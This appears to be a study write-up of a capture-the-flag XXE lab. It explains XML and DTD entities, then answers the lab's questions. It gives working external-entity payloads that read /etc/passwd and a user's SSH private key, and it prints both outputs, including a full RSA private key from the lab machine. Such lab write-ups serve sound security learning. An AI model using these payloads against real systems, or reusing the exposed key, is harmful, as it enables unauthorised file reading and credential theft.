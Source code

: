 # XML External Entity

**Date:** 29, December, 2020

**Author:** Dhilip Sanjay S

---

## What is XML?
- eXtensible Markup Language - defines a set of rules for encoding documents in a format that is both human and machine readable.
- It is a markup language used for storing and transporting data.

## Why use XML?
- Platform and programming language independent.
- Data can be changed at any point in time without affecting the data presentation.
- XML allows validation using DTD (Document Type Definition) and Schema.

## Syntax
- XML Prolog is used to specify XML version and encoding in XML document:
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    ```
    
- XML document must contain a root element. If ther is no root element, then it would be considered wrong or invalid XML doc:
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <mail>
        <to>falcon</to>
        <from>feast</from>
        <subject>About XXE</subject>
        <text>Teach about XXE</text>
    </mail>
    ```

    - `mail` -  root element
    - `to`, `from`, `text` - children element

- XML is **case-sensitive** language.
- XML elements can have attributes (similar to HTML):
    ```xml
    <text category = "message">You need to learn about XXE</text>
    ```

    - `category` - attribute
    - `message` - attribute value

---
## XML External Entity - DTD (Document Type Definition)
- DTD defines the structure and the legal elements and attributes of an XML document.
- **P.S:** HTML has pre-defined tags and attributes, whereas in XML, we define the elements and attributes using DTD.
- Internal and External DTD declaration.

- note.dtd
    ```xml
    <!DOCTYPE note [ 
    <!ELEMENT note (to,from,heading,body)> 
    <!ELEMENT to (#PCDATA)> 
    <!ELEMENT from (#PCDATA)> 
    <!ELEMENT heading (#PCDATA)> 
    <!ELEMENT body (#PCDATA)> ]>
    ```
- XML document that uses note.dtd
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE note SYSTEM "note.dtd">
    <note>
        <to>falcon</to>
        <from>feast</from>
        <heading>hacking</heading>
        <body>XXE attack</body>
    </note>    
    ```
- Understanding how DTD validates the XML:
    - `!DOCTYPE note` - deines a root element of the document named **note**.
    - `!ELEMENT note` - defines that note element must contain the elements : "to, from, heading, body".
    - `!ELEMENT to (#PCDATA)` - defines to element to be of type **#PCDATA**
    - `!ELEMENT from (#PCDATA)` - defines to element from be of type **#PCDATA**
    - `!ELEMENT heading (#PCDATA)` - defines to element heading be of type **#PCDATA**
    - `!ELEMENT body (#PCDATA)` - defines to element body be of type **#PCDATA**
- **Note:** `#PCDATA` - Parseable Character Data.

### Entities
- Entities in DTD
    ```xml
    <!ENTITY entity-name "entity-value">
    ```
- Entity usage in XML
    ```xml
    <author>&entity-name;</author>
    ```
### External Entities
- External entity in DTD
    ```xml
    <!ENTITY entity-name SYSTEM "URI/URL">
    ```
--- 

## XXE Attack
- XXE attack is a vulnerability that absuses features of XML parsers/data.
    - Denial of Service
    - Server-Side Request Forgery
    - Enable port scanning
    - Remote code Execution

- Two types of XXE attacks
    - **In-band XXE:** Attacker can receive an immediate response to the XXE payload.
    - **Out-of-band XXE (Blind XXE):** No immediate response from the web application. Attacker has to reflect the output of their XXE payload to some other file or their own server.

## XXE Payload

- To verify that XML is parsed:
    ```xml
    <!DOCTYPE replace [<!ENTITY name "feast"> ]>
    <userInfo>
    <firstName>falcon</firstName>
    <lastName>&name;</lastName>
    </userInfo>
    ```

- XXE to read some file from the system by suing ENTITY and SYSTEM keywords:
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
    <root>&read;</root>
    ```
---

## XXE Exploiting

### Try to display your own name using any payload.
    ```xml
     <!DOCTYPE replace [<!ENTITY name "Sanjay"> ]>
    <userInfo>
    <firstName>Dhilip</firstName>
    <lastName>&name;</lastName>
    </userInfo>
    ```   
---

### See if you can read the /etc/passwd
- **Answer:** 
    ```bash
    root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin sshd:x:109:65534::/run/sshd:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash 
    ```
- **Steps to Reproduce:** 
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
    <root>&read;</root>
    ```
---

### What is the name of the user in /etc/passwd
- **Answer:** falcon

---

### Where is falcon's SSH key located?
- **Answer:** /home/falcon/.ssh/id_rsa
- Usually the ssh keys are stored in `id_rsa` file of the respective user's `.ssh` folder by default.

---

### What are the first 18 characters for falcon's private keys
- **Answer:** MIIEogIBAAKCAQEA7b
- **Steps to Reproduce:** 
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE ssh [<!ENTITY key SYSTEM "file:/home/falcon/.ssh/id_rsa">]>
    <ssh>&key;</ssh>
    ```
    - **Output:**
    ```bash
    -----BEGIN RSA PRIVATE KEY----- MIIEogIBAAKCAQEA7bq7Uj0ZQzFiWzKc81OibYfCGhA24RYmcterVvRvdxw0IVSC lZ9oM4LiwzqRIEbed7/hAA0wu6Tlyy+oLHZn2i3pLur07pxb0bfYkr7r5DaKpRPB 2Echy67MiXAQu/xgHd1e7tST18B+Ubnwo4YZNxQa+vhHRx4G5NLRL8sT+Vj9atKN MfJmbzClgOKpTNgBaAkzY5ueWww9g0CkCldOBCM38nkEwLJAzCKtaHSreXFNN2hQ IGfizQYRDWH1EyDbaPmvZmy0lEELfMR18wjYF1VBTAl8PNCcqVVDaKaIrbnshQpO HoqIKrf3wLn4rnU9873C3JKzX1aDP6q+P+9BlwIDAQABAoIBABnNP5GAciJ51KwD RUeflyx+JJIBmoM5jTi/sagBZauu0vWfH4EvyPZ2SThZPfEb3/9tQvVneReUoSA5 bu5Md58Vho6CD81qCQktBAOBV0bwqIGcMFjR95gMw8RS9m4AyUnUgf438kfja5Jh NP36ivgQZZFBqzLLzoG9Y9jlGKjiSyMvW4u63ZacCKPTpp5P53794/UVU7JiM03y OvavZ2QveJp5BndV5lOkcIEFwFRACDK1xwzDRzx/TNJLufztb2EheMc3stNuOMea TLKlbG0Mp/c2az8vNN6HA0QiwxYlKZ58RfdsOfbsFxAltYNnzxy9UEieXtrWVg7X Qfi/ZeECgYEA/pfgg6BClEmipXv8hVkLWe7VwlFf4RXnxfWyi6OqC/3Yt9Q9B4Ya 6bgLzk2vPNHgJt+g2yh/TzMX6sCC9IMYedc0faiJr/VISBm25qTjqIGctwt0D3nb j60mSKKFbwDPxrcek/7WH1cWDcaLTDdL9KPLk1JQzbwDzojrE1TDD+cCgYEA7wsA MPm4aUDikZHKhQ5OOge+wzPNXVR6Yy1VV3WZfxRCoEuq6fYEJsKB5tykfQPC8cUn qwGvo8TiMHbQ9KmI5FabfBK8LswQ575bnLtMxdPyBCgYqlsAIkPYQAOizUVlrOOg faKF5VknsONM9DC3ZNx5L1zQXbsIrWbEPsRlytECgYB7CXr/IZwLfeqUfu7yoq3R sJKtbhYf+S4hhTPcOCQd13e8n10/HZg0CzXpZbGieusQ3lIml9Ouusp8ML0Y3aIe f9pmP+UKnEdqUMMLg/RhowHRlD9qm0F4lf1CbQh/NK01I5ore6SPUM7fqWv4UWDr wZzIfad/RbWxQooYtYXvUQKBgFDLcBIdpYX1x16aX1AfqLMWgRSrQqNj9UXmQa0g 83OvXmGdkbQoUfjjz1I/i10x00cycxjqpfn9htIIptG7J6i92SnTj0Vl9eTOQ1qz N9y5qVhcURHrVh0+vy3LzNACv73y5gDw2L7PJoo0GYODn8j4eAFZJpg3qlQpovTw HtOxAoGABqwywFKFNTYgrl17Rs4g3H1nc0EhOzGetRaRL2bcvQsZevuWyswp0Mbm 9nlgNAtxttsmfL+OU7nP3I4YQlyZed4luRWcRaXrvGMqfEL4wzRez5ZxMnZM/IlQ 9DBlD9C7t5MI3aXR3A5zFVVINomwHH7aGfeha1JRXXAtasLTVvA= -----END RSA PRIVATE KEY----- 
    ```
    - Put it inside a file and then use head command to get the first 18 characters: `head -c 18 <FILE>`
---
    